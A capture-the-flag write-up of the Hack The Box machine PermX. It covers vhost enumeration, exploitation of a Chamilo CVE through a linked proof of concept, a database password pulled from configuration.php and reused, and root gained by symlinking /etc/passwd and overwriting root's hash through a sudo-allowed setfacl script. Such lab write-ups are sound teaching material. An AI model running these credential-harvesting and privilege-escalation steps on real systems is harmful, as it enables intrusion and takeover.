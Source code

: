 ```yaml
---
layout: post
title: HTB PermX
categories: [Writeups]
tags: [HTB]
---
```


# Initial recon

## Nmap scan
The initial nmap scan reveals that only port 22 and 80 are open on the mashine. 
Here we can see that the mashine is associated with the domain name permx.htb. Whenever we see a domain name, it is a good idea to perfrom a virtual host enumeration.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80:
This port features a simple webpage that does not offer a lot of funtionality.

### Vhost enumeration
I personally prefer to perform vhost enumeration with the programm [FFUF](https://github.com/ffuf/ffuf), as I have had the most success with this.

To do vhost enumeration with [FFUF](https://github.com/ffuf/ffuf) I generally use the following command:
```shell
ffuf -w <wordlist> -H "Host: FUZZ.domain.tld" -u http(s)://<IP or Hostname>
```

So for this specific mashine the comman would be:
```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.permx.htb" -u http://10.10.11.23 -fc 302
```

The result of this should look like this: 
```
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 34ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1689ms]
```

As we can see here, there a two virtual hosts available on the mashine. These have to be added to the `/etc/hosts` file to make them available to us.

Visiting the `lms` subdoman we discover a webpage of an application called "Chamillo". Searching for exploits regarding Chamillo we can find the following CVE: `CVE-2023-4220`
Personally, I used this POC https://github.com/B1TC0R3/CVE-2023-4220-PoC.

Using this POC we get access to the box as the `www-data` user. We then need to decide on futher enumeration steps. as the `www-data` user is typically very low privileged,
we can try to enumerate the web root that the user owns. Here we put the focus on finding credentials. Typically a webroot will contain some sort of credentials in the 
form of database credentials. These can be present in environment or configuration files. Looking for the configuration location for Chamilo we find this github issue: https://github.com/chamilo/chamilo-lms/issues/2682.
This mentiones the existance of a `configuration.php` file.

configuration.php
```php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

With the following command we can get all users that have a login shell.

```passwd
cat /etc/passwd | grep "sh$"`
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

Whenever we get a password it makes sense to try for a password reuse as this happens a lot.
So we will attempt to log in with the mtz user and the passowrd "03F6lY3uXAP2bkW8".

Running linpeas.sh we can discover that the user mtz is allowed to run the following commands with sudo privileges:
```
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
./linpeas.sh: 3400: get_current_user_privot_pid: not found
```

The acl.sh script has the following contents:
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Looking at the script, we can see that it can be used to set permissions on certain file, with the restiction that the files must be in the home directory of the mtz user.
When we see a restriction regarding a user controlled directory, we can check if the script or program will follow symbolic links. 
We are allowed to symbolocally link files from the root directory to one that we control. We cannot interact with the file, but the script will as it is run with elevated privileges.

There are multiple ways to exploit this to get privesc. I will choose the path of making the `/etc/passwd` file and add a new user with root id.

```shell
ln -s /et/passwd passwd
```

```shell
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

We can then edit the passwd file in the users home directory and replace the "x" in the root users entry with a password hash.

We can get a hash with:
```shell
openssl passwd <password>
```

From:
```
root:x:0:0:root:/root:/bin/bash
```

to:
```
root:$1$4kT/OIo.$XtwrceEzSsuz/lS/Re6kK.:0:0:root:/root:/bin/bash
```

We can then enter `su -` and enter the passowrd to become root.
